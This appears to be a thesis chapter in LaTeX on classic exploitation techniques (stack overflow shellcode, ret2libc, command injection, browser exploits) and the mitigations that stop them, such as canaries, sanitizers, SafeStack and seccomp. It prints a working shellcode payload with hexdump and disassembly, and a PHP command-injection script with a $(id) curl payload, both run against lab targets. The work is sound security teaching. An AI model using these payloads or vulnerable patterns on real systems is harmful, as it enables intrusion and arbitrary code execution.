One of the earliest vulnerabilities that were exploited was the buffer overflow. A Buffer overflow represents a crucial class of software vulnerabilities that can serve as a launching pad for a myriad of complex exploits, one of which includes shellcode injection. This vulnerability arises when more data is written to a buffer than it can hold, allowing an attacker to overwrite adjacent memory locations. If exploited judiciously, this can alter the program's control flow, enabling an attacker to execute arbitrary code. One manifestation of this is shellcoding, where an attacker injects a sequence of bytes, often encoding command-line shell instructions, into the memory and manipulates the program's execution flow to execute this code \cite{alephone}. This capability to execute arbitrary code gives the attacker complete control over the compromised system, illustrating the severity and implications of buffer overflow vulnerabilities.

Code for the vulnerable program used is available at Annex~\ref{lst:bof-sample}.

Running the program with my name gives an expected output:
\begin{lstlisting}[caption={Non-malicious input}
      ,label={lst:bof_valid}
      ,language=bash]
$ ./say_hi Liviu
Hi Liviu!
\end{lstlisting}

But running the program with the following malicious crafted input a vastly different result\footnote{This would not happen in modern compilers because of mitigations enabled is displayed. The exact compilation flags required for this attack were: \texttt{-fno-stack-protector -z execstack -fno-pic -no-pie}}:
\begin{lstlisting}[caption={Shellcode execution}
      ,label={lst:bof_malicious}
      ,language=bash]
# The `cat` command is used just to keep
# the stdin of the `say_hi` program open
$ cat shellcode_malicious_input.bin - | ./say_hi
aaaa
Hi !
ls
Makefile  say_hi  shellcode_malicious_input.bin
\end{lstlisting}

\begin{lstlisting}[caption={Hexdump of malicious input}
      ,label={lst:bof_malicous_hex}
      ,language=bash]
0000000 0000 0000 0000 0000 0000 0000 0000 0000
*
0000100 0000 0000 0000 0000 115a 0040 0000 0000
0000110 9090 9090 9090 9090 9090 9090 9090 9090
*
0000310 8148 80ec 0000 6a00 4868 2fb8 6962 2f6e
0000320 2f2f 5073 8948 68e7 6972 0101 3481 0124
0000330 0101 3101 56f6 086a 485e e601 4856 e689
0000340 d231 3b6a 0f58 0005
0000347
\end{lstlisting}
The program behaves like a system shell. Listing ~\ref{lst:bof_malicous_hex} shows the payload used in \emph{hexdump} form. 
\begin{enumerate}
  \item \texttt{0000000-0000100} null bytes\footnote{\emph{gets} does not stop reading the string when it encounters a \emph{NULL} (0) byte, even though C strings NULL terminated.~\emph{scanf} will stop consuming input only when it encounters an error or a line break}.
  \item \texttt{0000100-0000108} overflowed \emph{base pointer} This exact exploitation scenario does not impose any restrictions on the overflowed value of the base pointer.
  \item \texttt{0000108-0000110} overflowed \emph{return address}, now containing the address of the \emph{jump rsp} gadget
  \item \texttt{0000110-0000310} \emph{nop sled}, giving the attacker leeway when choosing the return address.
  \item \texttt{0000110-0000310} shellcode at Listing ~\ref{lst:bofshell} calling the \emph{execve} function with the arguments: ``/bin/sh"", NULL, NULL, granting the attacker a shell on the system
\end{enumerate}

This traditional exploitation technique of buffer overflow to shellcode has been effectively mitigated by a multitude of defensive mechanisms, which will be discussed in subsequent chapters. These mechanisms include \emph{Address Space Layout Randomization} (ASLR), \emph{Data Execution Prevention} (DEP), \emph{Stack Canaries}, and \emph{Control-Flow Integrity} (CFI). Despite these developments, the exploitative scenarios that were outlined are still applicable in settings in which the protective mechanisms stated above are either not present or cannot be adopted. For example, systems that do not have a \emph{Memory Management Unit} (MMU), a large number of embedded systems, and some router configurations may lack these safeguards, leaving them susceptible to assaults of this kind. It is still essential for a complete system security plan to have a solid understanding of these attacks.

\begin{figure}[ht]%
  \centering
  
\begin{tikzpicture}[node distance=2cm]
    \tikzstyle{block} = [rectangle, draw, fill=blue!20, text width=5em, text
    centered, minimum height=2em, text width=5cm,
               text depth=0.25cm,
               text height=1em,
               align=center]
    \tikzstyle{line} = [draw, -latex']

    % Define matrix
    \matrix [matrix of nodes,
      nodes=block,
      column sep=0cm,
      row sep=0cm
    ] (stack) {
      {...} \\
      |[fill=red!20, minimum height=5em]|
      {return address (to \emph{libc\_start\_call\_main})} \\
      {\emph{rbp} of \emph{libc\_start\_call\_main}} \\
      |[fill=red!20]|
      {return address (to \emph{main})} \\
      {\emph{RBP} of \emph{main}} \\
      |[minimum height=12em]|
      {\emph{local\_buffer}} \\
    };

    % Draw arrow with two right angles
    % \draw [red,thick,->] (stack-1-1.east) -- +(2cm,0) |- (stack-5-1.east) node[midway, right, black] {Pointer};
    \draw [red,thick,->] ([xshift=3cm]stack-6-1.south east) --
    ([xshift=0cm]stack-6-1.south east) node[midway, above, black] {rsp};

    \draw [red,thick,->] ([xshift=3cm]stack-4-1.east) --
    ([xshift=0cm]stack-4-1.east) node[midway, above, black] {rbp};

    \draw [decorate,decoration={brace,amplitude=10pt,mirror}]
    (stack-6-1.north west) -- (stack-6-1.south west)
    node[midway,xshift=-1.5cm,] {0x100 bytes};

    \draw [decorate,decoration={brace,amplitude=10pt,mirror}]
    (stack-5-1.north west) -- (stack-5-1.south west)
    node[midway,xshift=-1.5cm,] {0x8 bytes};

    \draw [decorate,decoration={brace,amplitude=10pt,mirror}]
    (stack-4-1.north west) -- (stack-4-1.south west)
    node[midway,xshift=-1.5cm,] {0x8 bytes};

  % \draw [decorate,decoration={brace,amplitude=10pt}]
  %     (stack-1-2.north east) -- (stack-3-2.south east)
  %     node[midway,xshift=1.5cm,] {Group 1};

  \end{tikzpicture}
  \caption{\label{fig:stackframe} State of the stack before executing \emph{gets} in the function \emph{say\_hi}}%
\end{figure}

\begin{lstlisting}[caption={Shellcode disassembly}
      ,label={lst:bofshell}
      ,language={[x86masm]Assembler}]
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
\end{lstlisting}

\subsubsection{Command injection}
Command injection vulnerabilities are pervasive in web and system programming environments. These flaws occur when an application passes unsecure user-supplied data (forms, cookies, HTTP headers) to a system shell, allowing an attacker to execute arbitrary commands on the host operating system.

\emph{Cross-site scripting} (XSS) and \emph{SQL injection} vulnerabilities are most prevalent in web applications with scripts that fail to properly sanitize user input, making them susceptible to such attacks.
However, command injection vulnerabilities are prevalent in systems programming as well as web programming. Applications and programs that accept untrusted input for command execution and are poorly designed can expose the system to similar attacks. This vulnerability highlights the significance of careful data management and input validation regardless of the programming environment.

Such an example of a vulnerable app is shown in Listing~\ref{lst:phpinject}. The application lacks proper input validation and allows an attacker to execute arbitrary commands due to use of the \emph{system} function. The malicious request at Listing~\ref{lst:cmdinj} sets the \emph{username} parameter to \verb|$(id)|, causing the system shell called by the \emph{system} PHP function to interpret the username as a subcommand, interpolating the output into the original command.

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Command Injection example}
      ,label={lst:phpinject}
      ,language=PHP]
<?php
    $username = $_GET['username'];
    system("echo Hello " . $username);
?>
\end{lstlisting}
\end{minipage}

\begin{lstlisting}[caption={Command Injection example}
      ,label={lst:cmdinj}
      ,language=bash]
$ docker run -d -p 8080:80 command_injection_php
d58498277e1194cc46dac4009f8fca1c84ce02bea21008075ad53f77bd63202f
$ curl http://127.0.0.1:8080/hello\?username\=$\(id\)
Hello uid=33(www-data) gid=33(www-data) groups=33(www-data)
\end{lstlisting}
Command injection vulnerabilities can drastically undermine security measures. They enable attackers to bypass reverse proxies, offering unauthorized access to protected internal services. Moreover, such vulnerabilities can assist in creating botnets by allowing threat actors to inject commands to download and install malicious software, leading to potential large-scale cyber threats such as Distributed Denial of Service (DDoS) attacks.

The situation is similar in the systems programming space. The example of how a vulnerable program might look is left as an exercise for the reader.

\subsection{Evolution}
As mitigation strategies have advanced in both hardware and software to counteract software exploitation, so too have the techniques used by threat actors, resulting in a continual escalation of sophistication. In response to hardening mechanisms such as stack canaries and NX bits, novel exploitation techniques have been developed to circumvent these defenses. \emph{Return Oriented Programming} (ROP) and heap corruption exploits are prominent among these. ROP is a technique that leverages existing code fragments, known as "gadgets", in the binary to perform arbitrary computations, effectively sidestepping the constraints enforced by the \emph{NX} bit. 

On the other hand, heap corruption exploits involve manipulating the metadata of memory management structures to induce undefined behavior, providing the means to execute arbitrary code or escalate privileges. This evolutionary process underscores the dynamic nature of the cybersecurity landscape and the perpetual challenge of maintaining software security in the face of evolving threats.

\subsubsection{ret2libc}
\emph{ret2libc} or \emph{Return to LibC} is a countermove against the NX bit mitigation, which marks certain areas of memory as non-executable, thereby prohibiting the execution of injected code. The essence of ret2libc lies in its ingenious manipulation of the program's control flow to call existing code, typically functions residing in standard libraries (hence 'libc'), rather than introducing new code to be executed. By returning to standard, broadly-used functions like 'system()' or 'exec()', an attacker can execute arbitrary commands in the context of the vulnerable program, effectively bypassing the NX bit defense. Ret2libc exemplifies the continually evolving landscape of software exploitation techniques that repurposes legitimate elements of the program to nefarious ends, circumventing protective mechanisms and illustrating the challenges of developing robust and enduring defenses against software vulnerabilities.

The entry mechanism behind this technique is the same as in the code injection case. The return address is overwritten with an attacker controlled address. However, this time instead of providing our shellcode, use existing code is made that is mapped inside the address space of the vulnerable process, in this case from LibC itself.


For example, The return address of a function can be overwritten with the address of the \emph{system} function.

Executing a ret2libc attack imposes two main challenges on the attacker:
\begin{enumerate}
  \item at what address are important functions such as \emph{system} located?
  \item what mechanisms does the binary provide to pass parameters to functions that it did not call originally?
\end{enumerate}

\begin{figure}[ht]%
  \centering
  
\begin{tikzpicture}[node distance=2cm]
    \tikzstyle{block} = [rectangle, draw, fill=blue!20, text width=5em, text
    centered, minimum height=2em, text width=5cm,
               text depth=0.25cm,
               text height=1em,
               align=center]
    \tikzstyle{line} = [draw, -latex']

    % Define matrix
    \matrix [matrix of nodes,
      nodes=block,
      column sep=0cm,
      row sep=0cm
    ] (stack) {
      {\verb|<unmapped space>|}\\
      |[fill=red!20]|
      {binary.rodata} \\
      {binary.text} \\
      {binary.bss} \\
      {\verb|<unmapped space>|} \\
      |[fill=red!20]|
      {libc.rodata} \\
      {libc.text} \\
      {libc.bss} \\
      {\verb|<unmapped space>|} \\
      |[fill=red!20]|
      {ld.rodata} \\
      {ld.text} \\
      {ld.bss} \\
      {\verb|<unmapped space>|}\\
    };

    \draw [blue,thick,->] ([xshift=-3cm]stack-1-1.north west) --
    ([xshift=0cm]stack-1-1.north west) node[midway, below, black] {0x00000000};

    \draw [blue,thick,->] ([xshift=-3cm]stack-13-1.south west) --
    ([xshift=0cm]stack-13-1.south west) node[midway, below, black] {0xFFFFFFFF};

  \end{tikzpicture}
  \caption{\label{fig:vmmap} Virtual memory map}%
\end{figure}

The following exploitation steps assume that a function vulnerable to a buffer overflow is available and a known address from within LibC is known. The next step of this exploit is to call the \emph{system} function with `/bin/sh' as it's argument to grant us a foothold on the machine. In Figure~\ref{fig:vmmap} is an example of how the virtual memory space is laid out when executing a binary. The \emph{system} function is located within the text section of LibC. If LibC is compiled with \emph{PIC} and \emph{ASLR} is enabled on the target system, sections will be offset relative to a randomly selected base address. Using the known address it is possible to compute the base address of the library and, from there, get addresses for any byte in the library.

The equation below shows how the base of LibC can be computed using any known address and the LibC binary (exemplified with the \emph{printf} function):
\begin{equation}
  libc\_{base} = printf\_leak - offset\_{of}\_{printf}\_{in}\_{libc}
\end{equation}

Moving to the second challenge, how can parameters be passed to the function overflowed into the return address? It is not possible to provide instructions directly, as they are placed on the Stack, a region of memory that cannot be executed (due to NX), but using snippets of code already present in the binary allows for manipulating registers and memory addresses in such a way as to mimic the program calling the function as intended.

An example \emph{ret2libc} attack on a modified version of the code at Listing~\ref{lst:bof-sample} compiled with NX enabled and stack protectors disabled, that leaks the address of \emph{puts} to stdout, is shown in Appendix~\ref{lst:pwntools}

\subsection{Exploit chains}
\begin{figure}[H]
  \centering
  
\begin{tikzpicture}[
    node distance = 2.5cm,
    auto,
    decision/.style={diamond, draw, fill=blue!20, text width=4.5em, text badly centered, node distance=3cm, inner sep=0pt, minimum width=5},
    block/.style={rectangle, draw, fill=blue!20, text width=5em, text centered, rounded corners, minimum height=4em},
    line/.style={draw, -Latex, rounded corners=5mm}
    ]

    \node [block] (entrypoint) {Entrypoint};
    \node [block, below of=entrypoint] (information) {Gain more information about the system};
    \node [decision, below of=information] (decision) {Enough info?};
    \node [block, below of=decision] (rce) {Goal};

    \path [line] (entrypoint) -- (information);
    \path [line] (information) -- (decision);
    \path [line] (decision) -- node {yes} (rce);
    \path [line] (decision) -- ++(-2,0) -- ++(0,2) node [midway, above, sloped, rotate=270, above=0.3cm] {no} -- (information);
  \end{tikzpicture}
  \caption{Exploitaion process} \label{pic:process}
\end{figure}

The mitigation strategies employed by hardware and software designers have limited the impact a single exploit can have. This has given rise to \emph{exploit chains}. In this scenario, multiple vulnerabilities or oversights are exploited to gain more information about the system. Figure~\ref{pic:process} describes how an attacker would approach exploiting a system.

\subsection{Browser exploits}
In the contemporary computing landscape, a notable surge in interest surrounding browser exploitation has emerged, predominantly attributed to the increasing ubiquity of JavaScript and the inherent security implications of executing foreign code on local machines. As web applications have become more complex and feature-rich, JavaScript's role has evolved from simple client-side scripting to powering extensive, intricate software systems. This growth presents an enticing target for threat actors, as virtually every user interacting with a web application runs potentially untrusted code within their local execution context. Thus, The browser environment becomes a frontline for cybersecurity, demanding rigorous scrutiny and sophisticated mitigation techniques. Furthermore, the heterogeneous nature of browser architecture and JavaScript engine implementations across different vendors adds a layer of complexity to securing these environments, highlighting the criticality of understanding and countering browser-based exploits, forming an essential dimension of comprehensive cybersecurity strategies.

\subsubsection{How does JavaScript get exploited?}
Within the context of JavaScript, a dynamic and interpreted language primarily executed within the confines of web browsers, a unique vulnerability surface emerges, closely tied to its heap-based memory management and dynamic typing semantics. The vast majority of JavaScript objects are allocated on the heap, the malleability of which introduces inherent susceptibilities to heap overflow attacks. Given JavaScript's dynamic typing system, manipulating an object's memory layout, made possible through an overflow, can fundamentally alter an object's behavior.


This means that a successfully exploited heap overflow could potentially morph an innocuous object into a malicious entity with escalated privileges or unintended functionalities. As such, heap overflow vulnerabilities within JavaScript engines pose a significant security concern, mandating careful consideration and robust mitigation strategies in the design and implementation of modern JavaScript engines and runtime environments.

Below is the structure of how Javascript values (or JSValues) are encoded into memory:
\begin{figure}[H]%
  \centering
  
\begin{tikzpicture}[node distance=2cm]
    \tikzstyle{block} = [rectangle, draw, fill=blue!20, text width=5em, text
    centered, minimum height=2em, text width=5cm,
    text depth=0.25cm,
    text height=1em,
    align=center]
    \tikzstyle{line} = [draw, -latex']

    % Define matrix
    \matrix [matrix of nodes,
    nodes=block,
    column sep=0cm,
    row sep=0cm
    ] (stack) {
      {\verb|0000:PPPP:PPPP:PPPP|\footnotemark} \\
      {\verb|0001:DDDD:DDDD:DDDD|\footnotemark} \\
      {...} \\
      {\verb|FFFE:DDDD:DDDD:DDDD|} \\
      {\verb|FFFF:0000:IIII:IIII|\footnotemark} \\
    };

  \end{tikzpicture}
  \caption{\label{fig:memorymap} Virtual memory map}%
\end{figure}
\footnotetext[15]{Nibbles marked with \emph{P} encode a pointer}
\footnotetext[16]{Nibbles marked with \emph{P} encode a NAN-boxed double precision IEE754 float}
\footnotetext[17]{Nibbles marked with \emph{P} encode an integer}
This behaviour also extends to more complex and interesting objects such as arrays. JavaScriptCore (at least the versions from around 2016) describe arrays as ``exotic'' objects which contain their properties. An in detail explanation of how these objects are laid out in memory and how to exploit them in~\cite{saelo2016}.


Due to the high impact that a vulnerability in a JavaScript runtime would have on the security of computers worldwide, properly isolating the JS runtime from the host machine is paramount. In modern browsers, this is achieved by employing the least privilege principle. The browser is separated into multiple processes that use a well-defined IPC mechanism to communicate, limiting what attackers can do by exploiting a single process and requiring an exploit chain to gain increasingly more privileges as desired.
\subsection{State of the art}
\begin{comment}
  Rise of the hypervizor exploits (showcase some virtualbox exploits, maybe
  vmware hyperv) RCE Exploits mostly slowing down Common techniques no longer
  being effective (check offbyonesec talk about windows kernel exploitation, talk
  about)
\end{comment}
In recent years, virtualization technologies have witnessed an unprecedented surge in their adoption, primarily driven by advancements in datacenter and cloud-based applications. These technologies allow multiple virtual machines or containers, each encapsulating an entire execution environment, to coexist on the same physical hardware, thereby promoting efficient resource utilization, simplified management, and scalability. More than just a cost-effective solution for large-scale computations, virtualization has also garnered considerable attention as a robust approach for isolating the execution of untrusted code. In this context, it serves as a defensive boundary, segregating potentially harmful operations within a contained environment, thereby limiting their ability to affect the more extensive system adversely. Consequently, the evolution of virtualization technologies has profoundly impacted the modern computing landscape, opening new possibilities for efficient, scalable, and secure computing and posing new cybersecurity challenges.

Driven by the relentless demand for heightened performance, detailed scrutiny of processor operations and employed microarchitectural designs have become imperative. This necessity is underscored by unearthing vulnerabilities such as those referred to in \cite{spectre} and \cite{meltdown}. These exploits ingeniously capitalize on the side effects triggered by the processor during memory access and speculative execution. This development highlights the criticality of an in-depth understanding of hardware function. Even before the findings mentioned earlier, researchers have been able to cross the virtualization boundary and gain information from other VMs running on the same machine. The \cite{flushreload} reveals an attack that can recover around 95\% of the bits of a GnuPG secret key.

\section{Detection and Mitigation Techniques}%
In the realm of cybersecurity, the price tag associated with the implementation of mitigation strategies such as stack canaries and heuristic checks is frequently overlooked. These countermeasures, while crucial for system protection, impose an overhead on system performance, potentially influencing the overall efficiency of the software. As part of our investigation, this paper will delve into an in-depth analysis of this often-neglected cost associated with such defensive measures. Our objective is to facilitate a more balanced perspective, considering not only the protective benefits but also the incurred costs of these mitigation strategies.

\subsubsection{Stack canaries}
Defending against stack buffer overflows has been attempted since 1997 with StackGuard ~\cite{stackguard}, but it was not until 2006, with the release of GCC 4.1 this was available for the entire Linux community. This mitigation places a random sacrificial value right before the return address in modern compilers. This mitigation, combined with a new variable alignment technique that places all buffers above all other function local variables, has proven to be an effective mitigation with a minimal performance impact.

On GCC x86-64 version 13.1, compiling the Appendix~\ref{lst:stack-layout} results in both functions having the buffer
placed closest to the stack canary.

\begin{lstlisting}[caption={Function prologue of $buffer\_{first}$ and $buffer\_{last}$}
      ,label={lst:layout-asm}
      ,language={[x86masm]Assembler}]
        mov     rdx, QWORD PTR [rbp-296]
        lea     rax, [rbp-272]
        mov     rsi, rdx
        mov     rdi, rax
        call    strcpy
\end{lstlisting}

Both functions load the buffer variable from the same address, exemplified by Listing~\ref{lst:layout-asm}.

\begin{lstlisting}[caption={Canary initialization}
      ,label={lst:canary-init}
      ,language={[x86masm]Assembler}]
        mov     rax, QWORD PTR fs:40
        mov     QWORD PTR [rbp-8], rax
\end{lstlisting}

Listing~\ref{lst:canary-init} shows how the canary is placed on the stack. This mitigation requires runtime support, as the value of the cookie is randomly generated for each process and placed at the address \emph{fs:40}.

\begin{lstlisting}[caption={Canary verification}
      ,label={lst:canary-check}
      ,language={[x86masm]Assembler}]
        mov     rdx, QWORD PTR [rbp-8]
        sub     rdx, QWORD PTR fs:40
        je      .L2
        call    __stack_chk_fail
\end{lstlisting}

Listing~\ref{lst:canary-check} shows how the cookie is checked. If the value from the stack and the value at \emph{fs:40} are not equal the jump is not taken and \emph{\_\_stack\_chck\_fail} is called, terminating the process.

\subsection{Shadow stacks}
Advancements in secure software systems have led to the development of shadow stacks, representing a significant leap from earlier protection measures like stack canaries. Shadow stacks offer a more robust mechanism for guarding against stack buffer overflows by decoupling control-flow information from user data. They maintain a separate, concealed stack dedicated solely to storing return addresses, making it exceedingly challenging for attackers to alter the flow of execution. This strategic bifurcation of data fundamentally strengthens the protection against control-flow hijacking attacks. It ensures that even if an attacker successfully tampers with data on the main stack, any discrepancies with the shadow stack will immediately be flagged. Despite the operational complexities and slight runtime overheads, they may introduce, shadow stacks serve as a remarkably effective mitigation strategy, enhancing the integrity of the control flow beyond what is achievable with stack canaries alone.

\subsection{Sanitizers}
With the increasing amount of memory errors in unsafe system programming languages such as C and C++, methods for detecting runtime errors without requiring code changes have been developed. Even though they are rarely used in production environments, they have seen massive success when used in conjunction with fuzzers~\cite{fuzz1}~\cite{fuzz2} to detect severe vulnerabilities in large code bases.

\subsubsection{UBSAN}
UBSAN (Undefined Behavior Sanitizer) injects additional checks during the compilation of the program in order to detect Undefined Behaviour\footnote{explain this}. Here is a non-exhaustive list of the features and checks UBSAN does:

\begin{itemize}
  \item Array subscript out of bounds, where the bounds can be statically determined
  \item Bitwise shifts that are out of bounds for their data type
  \item Dereferencing misaligned or null pointers
  \item Signed integer overflow
  \item Conversion to, from, or between floating-point types, which would overflow the destination
\end{itemize}


\subsubsection{ASAN}
ASAN (or Address Sanitizer) adds instrumentation during the compilation process to detect the following memory errors:

\begin{itemize}
  \item Out-of-bounds accesses to heap, stack and globals
  \item Use-after-free
  \item Use-after-return
  \item Use-after-scope
  \item Double-free, invalid free
\end{itemize}

\subsubsection{SafeStack}
SafeStack is a sanitizer that fixes one of the biggest issues when it comes to the Stack. It separates the control flow data from user data by splitting the Stack in two. The \emph{Safe Stack}, which replaces the initial Stack and only stores control flow data and variables that are \emph{safely}\footnote{Register spills, accesses that are proven at compile time to be safe} accessed. Accesses that are decided to be \emph{unsafe}\footnote{Such as doing a \emph{strcpy} on a buffer} are placed on the unsafe stack, far away from control data.

\begin{lstlisting}[caption={SafeStack enabled}
      ,label={lst:safestack}
      ,language={[x86masm]Assembler}]
   mov    rdi,QWORD PTR fs:[rax]
   mov    QWORD PTR [rbp-0x10],rdi
   add    rdi,0xffffffffffffff00
   mov    QWORD PTR [rbp-0x18],rdi
   mov    QWORD PTR fs:[rax],rdi
   call   0x55b9ecf030d0 <gets@plt>
\end{lstlisting}

Listing~\ref{lst:safestack} showcases dissasembly of the program at Annex~\ref{lst:bof-sample} compiled with SafeStack. The buffer passed to \emph{gets} is not relative to \emph{RSP}. In this case \emph{RDI} is used as the unsafe stack pointer.

Running our \emph{ret2libc} exploit on this binary, it behaves as if the overflow never happened. 
\begin{lstlisting}[
      ,label={lst:gucci}
      ,language={Bash}]
$ python ret2libc.py
Hi !
\end{lstlisting}

\begin{lstlisting}[caption={No SafeStack}
      ,label={lst:unsafestack}
      ,language={[x86masm]Assembler}]
    lea    rax, [rbp-0x100]
    mov    rdi, rax
    call   0x55fe6910a070 <gets@plt>
\end{lstlisting}

Listing~\ref{lst:unsafestack} showcases the disassembly of the call without SafeStack. An address that is close to the return address is passed to \emph{gets}.

\subsection{Seccomp}
Seccomp (or Secure Computing) was introduced in the 2.6.12 version of the Linux kernel. At that time, it provided a \emph{strict} execution mode for processes that allowed a minimal set of system calls. The intention behind this mode was to allow untrusted code to run on systems. This functionality was greatly enhanced with the introduction of seccomp-bpf (Berkeley Packet Filter) in version 3.5 of the kernel. This new mode of operation allowed programmers to filter the system calls a process made using small programs written in a DSL. This functionality is prominent in projects where the host system's security is paramount, such as Docker, Chrome, or Firefox. Listing~\ref{lst:seccomp} is an example of the granular control seccomp can achieve. Note that once a process installs a seccomp filter, it is impossible to remove it without exploiting the kernel while also being inherited by all child processes of the filtered process.

Annex \ref{lst:seccomp} shows the shellcoding code example protected with seccomp filters (some of the functions were replaced to simplify the filters). Because the filters are strict, even though the program is vulnerable to one of the simplest attacks, it is impossible to abuse it to gain further access to the machine it is running on.

Attempting to run the shellcoding exploit on the filtered binary, the following message is received:
\begin{lstlisting}[
      ,label={lst:msg}
      ,language={Bash}]
  Process stopped with exit code -31 (SIGSYS) (pid 32914)
\end{lstlisting}

This happens because the provided shellcode use contains the syscall \emph{execve}, which is used for gaining a shell on the system, but this syscall is not allowed by the seccomp filters. Without a vulnerable kernel driver it is impossible to bypass these filters if they are correct, but there is always a risk that a program needs syscalls that could compromise the system, or filters that were not properly audited and are too permissive.

\subsection{Performance cost}
\subsubsection{Testing setup}

This is the list of compiler flags used for each of the testing environments:
\begin{itemize}
  \item \texttt{Optimize} - ``-O2''
  \item \texttt{No stack protector} - ``-O2 -fno-stack-protector''
  \item \texttt{Ubsan} - ``-O2 -fsanitize=undefined''
  \item \texttt{Ubsan minimal} - ``-O2 -fsanitize=undefined -fsanitize-minimal-runtime''
  \item \texttt{Asan+Bounds} ``-O2 -fsanitize=address,bounds,array-bounds''
  \item \texttt{Hardened} ``-O2 -fsanitize=undefined,address,bounds,array-bounds''
  \item \texttt{SafeStack} ``-O2 -fsanitize=safe-stack''
\end{itemize}

The machine the tests were ran on has the following specifications:
\begin{enumerate}
  \item \texttt{CPU} - AMD Ryzen 7 3750H
  \item \texttt{RAM} - 8 GB
  \item \texttt{OS} - Ubuntu 22.04 5.15.90.1-microsoft-standard-WSL2
\end{enumerate}

